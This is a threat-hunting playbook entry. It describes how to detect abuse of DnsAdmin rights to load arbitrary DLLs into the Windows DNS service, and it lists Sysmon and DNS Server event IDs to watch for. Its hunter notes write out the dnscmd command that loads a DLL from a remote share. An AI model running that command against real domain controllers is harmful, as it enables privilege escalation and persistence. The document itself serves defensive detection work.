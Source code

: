 # Windows DNS Server dll injection via RPC (DnssrvOperation2)
## Technique ID
T0000_dns_serverdll_injection


## Description
The Windows DNS Server management protocol, which is based on RPC, allows
DnsAdmins and higher privileged Users to load arbitary dlls as plugins into the
DNS service

You can find a detailed description
[here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).


## Hypothesis
Adversaries might be abusing DNSAdmin privileges to escalate privileges to
Domain Admin and achieve persistence by loading arbitary dlls as plugins into
the DNS service in my environment.


## Events (dnscmd execution)

| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| Sysmon | 13 | EventType |SetType - TargetObject gets set (see next line) | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 13 | TargetObject |REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\DNS\Parameters\ServerLevelPluginDll gets set to the dll path | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="Setting" | serverlevelplugindll (**case insensitive**), parameter as set by the attacker when executing dnscmd | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="NewValue" | \\192.168.0.149\dll\wtf.dll (**case insensitive**), parameter to the /serverlevelplugindll command as executed by the attacker | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |


## Events (DNS service restarted)
| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 771 | | Event gets logged when a dll plugin is loaded by the DNS service |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | EventData Name="DNS_EVENT_PLUGIN_DLL_LOAD_OK" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 7 | ImageLoaded | icmp.dll, oleauth32.dll, wtf.dll (specified plugin dll) | details: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |


## Events (when loading the dll failed)
| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 150 | EventData Name="DNS_EVENT_PLUGIN_INIT_FAILED" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 150 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |


# Atomic Sysmon Configuration
[T0000_dns_serverdll_injection.xml](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/attack_matrix/windows/sysmon_configs/T0000_dns_serverdll_injection.xml)


## Hunter Notes
We assume the attacker has a privileged user to reconfigure the DNS service:

The attack has to be executed in two steps:

  1. dnscmd.exe dc1.lab.internal /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    - Whereas the dll has to be as a special DNS server plugin dll.
      ([GitHub 0xdim69](https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp))
    - A registry parameter gets added: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll and set to the value \\\\192.168.0.149\dll\wtf.dll

  2. The DNS service gets restarted
    - The DLL is loaded into dns.exe and the API functions are called.

## Hunting Techniques Recommended

- [x] Grouping
- [x] Searching
- [ ] Clustering
- [ ] Stack Counting
- [ ] Scatter Plots
- [ ] Box Plots
- [ ] Isolation Forests

